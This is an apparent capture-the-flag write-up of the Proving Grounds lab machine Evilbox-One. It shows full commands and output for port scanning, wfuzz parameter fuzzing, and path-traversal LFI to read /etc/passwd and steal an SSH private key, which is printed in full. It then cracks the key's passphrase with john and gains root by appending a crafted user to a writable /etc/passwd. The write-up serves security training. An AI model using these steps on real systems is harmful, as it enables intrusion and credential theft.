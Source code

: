 ```yaml
---
layout: default
title: Evilbox-One
parent: Proving Grounds Play
nav_order: 13
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 12:34 EST
Nmap scan report for 192.168.160.212
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.75 seconds

```

# Enumeration

---

## 80 | HTTP

Run Gobuster and discover _/secret_ directory.

Run Gobuster again on _/secret_ directory and discover _evil.php_.

This is an empty file.

Run WFUZZ against _/secret/evil.php_ to search for a keyword that will allow LFI exploit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.160.212/secret/evil.php?FUZZ=../../../../../../../etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.212/secret/evil.php?FUZZ=../../../../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001218:   200        26 L     38 W       1398 Ch     "command"

Total time: 0
Processed Requests: 1710
Filtered Requests: 1709
Requests/sec.: 0
```

We try the _command_ keyword and trigger LFI by displaying _/etc/passwd_

![lfi](../../../assets/images/ctfs/proving_grounds/evilbox-one/lfi.png)

# Exploitation

---

We have a user _mowree_ and can enumerate the private RSA ssh key from their home directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ curl http://192.168.160.212/secret/evil.php?command=../../../../../../../home/mowree/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

Add the RSA private key to an _id_rsa_ file, change the permissions, and then use to SSH to the target as _mowree_

We are unable to, however, because the system wants a passphrase

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh -i id_rsa mowree@192.168.160.212
The authenticity of host '192.168.160.212 (192.168.160.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':

```

We need to use _ssh2john_ to crack the passphrase.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh2john id_rsa > crackme

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt crackme
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)
1g 0:00:00:00 DONE (2023-11-09 13:36) 50.00g/s 62400p/s 62400c/s 62400C/s franklin..shirley
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


```

We have cracked the passphrase unicorn
{: .warn}

We get the passphrase _unicorn_ and can SSH as mowree.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh -i id_rsa mowree@192.168.160.212
Enter passphrase for key 'id_rsa':
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ id
uid=1000(mowree) gid=1000(mowree) grupos=1000(mowree),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

# Post-Exploitation

---

_/etc/passwd_ is writable and we can add a new user.

The following will add a root user with the password _i<3hacking_

```bash
echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ su kamino
Contraseña:
root@EvilBoxOne:/home/mowree# id
uid=0(root) gid=0(root) grupos=0(root)

```
